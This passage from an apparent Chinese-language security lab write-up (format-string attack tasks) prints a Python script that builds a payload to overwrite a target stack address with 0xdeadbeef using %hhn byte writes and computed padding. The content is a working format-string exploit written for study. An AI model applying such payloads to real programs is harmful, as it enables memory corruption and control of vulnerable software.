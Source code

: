 ## 3.4 修改var的值为0xdeadbeef

task1_2.py

```python
#!/usr/bin/python3
# task1_2: change the value of the target address to 0xdeadbeef

# target address
addr = 0xffffcf68
# ad < be < de < ef
# 1: modify the 3rd byte
payload = (addr+2).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 2: modify the 2nd byte
payload += (addr+1).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 3: modify the 4th byte
payload += (addr+3).to_bytes(4,byteorder='little')
payload += ("abcd").encode('latin-1')
# 4: modify the 1st byte
payload += (addr).to_bytes(4,byteorder='little')
# new value
new_val = 0xdeadbeef

# 0xad - 4*7 - 5*8
len1 = 0xad - 4*7 - 5*8
len2 = 0xbe - 0xad
len3 = 0xde - 0xbe
len4 = 0xef - 0xde

payload += ("%.8x"*5 + "%.{}x".format(len1) + "%hhn" + "%.{}x".format(len2) + "%hhn" + "%.{}x".format(len3) + "%hhn" + "%.{}x".format(len4) + "%hhn").encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```

运行结果：

![image-20230519192521958](assets/image-20230519192521958.png)

# 4 任务2
